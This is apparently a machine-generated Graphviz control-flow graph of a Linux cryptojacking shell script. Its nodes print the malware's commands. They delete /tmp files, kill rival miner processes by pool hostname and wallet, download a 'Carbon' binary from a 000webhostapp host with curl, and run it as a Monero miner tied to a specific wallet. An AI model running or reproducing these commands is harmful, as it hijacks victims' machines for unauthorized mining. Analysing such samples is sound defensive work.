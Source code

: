 digraph {
0 [label="rm -rf /tmp/*index_bak* "];
0 -> 2 [label="N,function,(,),SC,{,"];
2 [label="rm -rf /tmp/*httpd.conf* "];
2 -> 4 [label="\n,"];
4 [label="rm -rf /tmp/*httpd.conf "];
4 -> 6 [label="\n,"];
6 [label="rm -rf /tmp/a7b104c270 "];
6 -> 8 [label="\n,"];
8 [label="pkill -9 AnXqV.yam "];
8 -> 140 [label="\n,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 14 [label="N,"];
14 [label="grep mine.moneropool.com "];
14 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 24 [label="N,"];
24 [label="grep xmr.crypto-pool.fr:8080 "];
24 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 34 [label="N,"];
34 [label="grep xmr.crypto-pool.fr:3333 "];
34 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 44 [label="N,"];
44 [label="grep zhuabcn@yahoo.com "];
44 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 54 [label="N,"];
54 [label="grep monerohash.com "];
54 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 64 [label="N,"];
64 [label="grep /tmp/a7b104c270 "];
64 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 70 [label="N,"];
70 [label="\xe3\x80\x80\xe3\x80\x80\xe3\x80\x80\xe3\x80\x80ps auxf "];
70 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 74 [label="N,"];
74 [label="grep xmr.crypto-pool.fr:6666 "];
74 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 84 [label="N,"];
84 [label="grep xmr.crypto-pool.fr:7777 "];
84 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 94 [label="N,"];
94 [label="grep xmr.crypto-pool.fr:443 "];
94 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 104 [label="N,"];
104 [label="grep 42HrCwmHSVyJSAQwn6Lifc3WWAWN56U8s2qAbm6BAagW6Ryh8JgWq8Q1JbZ8nXdcFVgnmAM3q86cm5y9xfmvV1ap6qVvmPe "];
104 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 114 [label="N,"];
114 [label="grep 4BrL51JCc9NGQ71kWhnYoDRffsDZy7m1HUU7MRU4nUMXAHNFBEJhkTZV9HdaL4gfuNBxLPc3BeMkLGaPbF5vWtANQt989KEfGRt6Ww2Xg8 "];
114 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 124 [label="N,"];
124 [label="grep 46SDR76rJ2J6MtmP3ZZKi9cEA5RQCrYgag7La3CxEootQeAQULPE2CHJQ4MRZ5wZ1T73Kw6Kx4Lai2dFLAacjerbPzb5Ufg "];
124 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 134 [label="N,"];
134 [label="grep stratum.f2pool.com:8888 "];
134 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 140 [label="N,"];
140 [label="ps auxf "];
140 -> 176 [label="\n,N,"];
176 [label="grep -v grep "];
176 -> 144 [label="N,"];
144 [label="grep xmrpool.eu "];
144 -> 146 [label="N,"];
146 [label="awk {print $2} "];
146 -> 148 [label="N,"];
148 [label="xargs kill -9 "];
148 -> 150 [label="N,"];
150 [label="cd /tmp/ "];
150 -> 152 [label="\n,},N,function,(,),SC,{,"];
152 [label="[ ! -f Carbon ] "];
152 -> 154 [label="\n,SC,N,if,"];
154 [label="curl https://letsweb.000webhostapp.com/Carbon Carbon "];
154 -> 156 [label=";,then,"];
156 [label="Carbon "];
156 -> 156
158 [label="chmod +x Carbon "];
158 -> 164 [label="&&,"];
164 [label="./Carbon -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 42HrCwmHSVyJSAQwn6Lifc3WWAWN56U8s2qAbm6BAagW6Ryh8JgWq8Q1JbZ8nXdcFVgnmAM3q86cm5y9xfmvV1ap6qVvmPe -p x -R 1 /dev/null "];
164 -> 166 [label="\n,"];
166 [label="/dev/null "];
166 -> 166
164 [label="./Carbon -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 42HrCwmHSVyJSAQwn6Lifc3WWAWN56U8s2qAbm6BAagW6Ryh8JgWq8Q1JbZ8nXdcFVgnmAM3q86cm5y9xfmvV1ap6qVvmPe -p x -R 1 /dev/null "];
164 -> 166 [label="&,else,"];
166 [label="/dev/null "];
166 -> 166
168 [label="kills "];
168 -> 170 [label="&,fi,\n,},"];
170 [label="p=$(ps aux | grep Carbon | grep -v grep | wc -l) "];
170 -> 170
172 [label="ps aux "];
172 -> 174 [label="N,N,N,"];
174 [label="grep Carbon "];
174 -> 176 [label="N,"];
176 [label="grep -v grep "];
176 -> 178 [label="N,"];
178 [label="wc -l "];
178 -> 180 [label="N,"];
180 [label="[ ${p} -eq 1 ] "];
180 -> 182 [label="SC,N,if,"];
182 [label="echo officeing "];
182 -> 184 [label=";,then,"];
184 [label="[ ${p} -eq 0 ] "];
184 -> 186 [label="elif,"];
186 [label="downloadyam "];
186 -> 187 [label=";,then,"];
}
